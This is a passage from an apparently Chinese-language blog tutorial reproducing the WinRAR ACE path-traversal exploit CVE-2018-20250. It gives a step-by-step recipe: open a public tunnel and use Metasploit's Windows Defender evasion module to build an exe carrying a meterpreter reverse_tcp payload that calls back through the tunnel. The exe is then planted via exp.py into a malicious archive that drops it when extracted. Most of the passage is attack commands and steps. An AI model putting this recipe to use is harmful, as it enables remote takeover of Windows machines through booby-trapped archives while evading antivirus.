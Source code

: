 - 开启隧道：

```
./sunny clientid 你的隧道ID
```

![][19]

![][20]

### 配置 payload

- 打开 Metasploit，选择免杀模块

生成 payload：

evasion/windows/windows_defender_exe 是 msf5 新增的模块，如果 kali 版本低，可只安装更新 Metasploit 即可：

```
msfconsole
use evasion/windows/windows_defender_exe(选择msf5免杀模块)
show info(显示模块信息)
set filename WinRarPayloadTest.exe(设置Payload名字 )
set payload windows/meterpreter/reverse_tcp(设置Payload类型 )
set lhost 你的赠送域名(设置上线地址，填写Ngrok映射出去的地址即可，不包含端口号和协议类型)
set lport 你的port(设置监听端口，填写Ngrok映射出去的端口即可 )
run(生成Payload)
```

![][21]

Payload 的路径地址:/root/.msf4/local/WinRarPayload.exe

- 将上述生成的 exe 程序复制到之前下载好的 exp 文件夹目录下：

修改 exp.py 中的 rar_filename 和 evil_filename 值：

![][22]

`python exp.py` 自动在文件根目录下生成恶意压缩包：

![][23]

好，报错，关闭 Kali，睡觉，开玩笑的~

作者在 Read.me 中提出来了这个问题：https://gitee.com/soapffz/CVE-2018-20250/blob/master/README.md

如果你的 python 的环境变量是配置为`python2`，`python3`这样似的，那么在`exp.py`文件中找到`get_right_hdr_crc`这个函数，把其中打开`acefile.py`的这行代码

```
p = os.popen('py -3 acefile.py --headers %s'%(filename))
```

改为你的 python 打开方式，比如：

```
p = os.popen('python3 acefile.py --headers %s'%(filename))
```


[1]: http://www.winrar.com.cn/download.htm
[2]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_213636.png
[3]: https://research.checkpoint.com/extracting-code-execution-from-winrar/
[4]: https://mp.weixin.qq.com/s/Hz-uN9VEejYN6IHFBtUSRQ
[5]: https://www.freebuf.com/column/196839.html
[6]: https://www.4hou.com/vulnerable/16314.html
[7]: https://www.freebuf.com/column/196567.html
[8]: https://www.freebuf.com/column/196660.html
[9]: https://www.freebuf.com/articles/network/197025.html
[10]: https://mp.weixin.qq.com/s/kizj0Fl1Jf2I990Nazu2QQ
[11]: https://mp.weixin.qq.com/s/EZudaOh8X8l0Y0vCFff9gw
[12]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_224132.png
[13]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_224230.png
[14]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_225614.png
[15]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_230140.png
[16]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_230806.png
[17]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_231826.png
[18]: https://www.ngrok.cc/download.html
[19]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_232437.png
[20]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_232655.png
[21]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_234417.png
[22]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_000516.png
[23]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_001138.png
[24]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_002814.png
[25]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_002909.png
[26]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_003216.png
[27]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_003702.png
[28]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_003811.png
[29]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_004704.png
[30]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_131815.png